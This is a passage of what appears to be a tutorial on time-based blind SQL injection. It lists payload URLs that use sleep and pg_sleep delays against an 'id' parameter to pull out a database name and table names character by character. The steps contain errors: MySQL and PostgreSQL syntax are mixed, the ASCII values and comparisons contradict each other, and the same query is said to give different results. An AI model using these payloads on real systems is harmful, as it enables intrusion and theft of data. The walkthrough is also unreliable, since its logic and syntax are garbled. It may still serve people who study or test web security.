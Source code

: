   ```http://domain.com/index.php?id=15'XOR(if(now()=sysdate(),sleep(5*5),0))OR'```  
  The response was ~10 seconds delayed so the first character of the database is **n**, let's move on.
  
  Continue enumerate the second character of database name.
  
  The given query will define is the second character of database name is 98 (h):  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (ascii(substr((select database()),2,1)) > 97) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```  
  The response was very short, which means that the first character of the databaze is not **h**, let's keep guessing.
  
  The given query will define is the first character of database name is 116 (t):  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (ascii(substr((select database()),2,1)) > 115) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```  
  The response is delayed by 10 seconds, meaning that **t** is the second character of the database.
  
  Continue doing the same process over and over until you find all 11 characters.
  
  1st character: 110 -> **n**  
  2nd character: 116 -> **t**  
  3rd character: 116 -> **t**  
  4th character: 104 -> **h**  
  5th character: 119 -> **w**  
  6th character: 102 -> **f**  
  7th character: 105 -> **i**  
  8th character: 57 -> **9**  
  9th character: 95 -> **_**  
  10th character: 100 -> **d**  
  11th character: 98 -> **b**  
  
  All 11 charachters combined together will be the database name: **ntthwfi9_db**
  
  **Retrieving length of table name**
  
  Given query will test the condition whether the length of string for the first table is equal than 4 or not.  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (length((select table_name from information_schema.tables where table_schema=database() limit 0,1)) = 4) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```  
  The response was fast, meaning that the length of the first table name of the database is not 4.  
  
  Let's try the same query with 6:  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (length((select table_name from information_schema.tables where table_schema=database() limit 0,1)) = 6) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```  
  The response was a little more than 10 seconds, which mean that the length is 6 characters.  
  
  NOTE: You can enumerate the other tables too, by changing the number value in this part of payload: (limit **0**,1). Simply replace it with another number. For example, let's see if 4th table columns has 6 characters:  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (length((select table_name from information_schema.tables where table_schema=database() limit 3,1)) = 6) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```  
  
  **Retrieving name of table name**
  
  On this case, I will enumerate the the first column. Let's find the first character of table:  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1)) > 108) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```  
  The response is quick, the first character of the first table name not found.
  
  Let's try again:  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1)) > 108) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```  
  The response is more then 10 seconds, the first character is **u** (ascii: 117)
  
  Let's find the last character of table (5th character):  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1)) > 114) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```  
  The response is more then 10 seconds, the 5th character is *s** (ascii code: 115)
  
  Keep doing the same process for the other characters, until you find all the characters.
  
  ```